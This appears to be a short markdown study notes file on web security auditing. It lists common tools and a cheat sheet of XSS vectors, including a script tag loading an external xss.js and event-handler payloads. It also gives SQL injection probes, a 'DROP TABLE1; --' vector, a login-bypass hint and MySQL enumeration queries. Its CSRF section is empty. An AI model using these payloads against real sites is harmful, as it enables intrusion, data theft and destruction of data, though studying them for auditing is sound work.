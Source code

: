 # Notes About Web Security
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #don't be a script kiddy!!


## Common Vulnerbilities

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### Basic
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL Injection

#### Attacking Vectors
##### Check if the vulnerability exists
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

##### Comment the rest of the query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` to close brackets and comment the queries
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!
### CSRF (Cross-Site-Request-Forgery)


